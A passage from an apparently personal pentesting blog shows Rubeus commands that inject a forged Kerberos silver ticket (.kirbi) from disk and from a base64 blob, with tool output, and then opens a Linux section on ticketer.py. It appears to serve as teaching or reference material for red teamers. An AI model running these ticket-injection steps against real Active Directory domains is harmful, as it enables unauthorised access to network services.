 Inject `.kirbi` from Disk

```powershell
PS C:\Users\m0chan> .\Rubeus.exe ptt /ticket:C:\Temp\silver.kirbi

(_____ \      | |
 _____) )_   _| |__  _____ _   _  ___
|  __  /| | | |  _ \| ___ | | | |/___)
| |  \ \| |_| | |_) ) ____| |_| |___ |
|_|   |_|____/|____/|_____)____/(___/

v1.3.3


[*] Action: Import Ticket
[+] Ticket successfully imported!

PS C:\Users\m0chan> .\Rubeus.exe klist
```



Inject `.kirbi` from Base64 Blog

```
PS C:\Users\m0chan> .\Rubeus.exe ptt /ticket:BASE64BLOBHERE

(_____ \      | |
 _____) )_   _| |__  _____ _   _  ___
|  __  /| | | |  _ \| ___ | | | |/___)
| |  \ \| |_| | |_) ) ____| |_| |___ |
|_|   |_|____/|____/|_____)____/(___/

v1.3.3


[*] Action: Import Ticket
[+] Ticket successfully imported!

PS C:\Users\m0chan> .\Rubeus.exe klist
```





### [](#header-3)From Linux 



I am going to try my best here to show how you can use Silver Tickets/Inject them etc from Linux but truthfully this is a learning experience for me as I 99% of the time carry this out on Windows bases platforms and/or **Domain-Joined Machines**



#### [](#header-4)ticketer.py
